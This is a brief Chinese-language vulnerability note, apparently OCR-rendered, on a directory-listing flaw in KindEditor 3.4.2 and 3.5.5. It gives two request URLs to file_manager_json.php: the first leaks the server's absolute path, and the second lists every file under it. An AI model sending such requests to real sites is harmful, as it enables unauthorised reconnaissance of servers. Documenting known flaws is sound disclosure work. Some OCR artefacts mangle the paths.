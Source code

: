 **KindEditor列目录漏洞 **

测试版本：KindEditor 3.4.2  KindEditor 3.5.5 

1.1.http://127.0.0.1/67cms/kindeditor/php/file_manager_json.php?path=/ 
\2. //path=/，爆出绝对路径D:AppServwww67cmskindeditorphpfile_manager_json.php 
\3. 2.http://127.0.0.1/67cms/kindeditor/php/file_manager_json.php?path=AppServ/www/67cms/ 
\4. //根据爆出的绝对路径，修改path的值为AppServ/www/67cms/ 
\5. 这时将遍历d:/AppServ/www/67cms/下的所有文件和文件名 

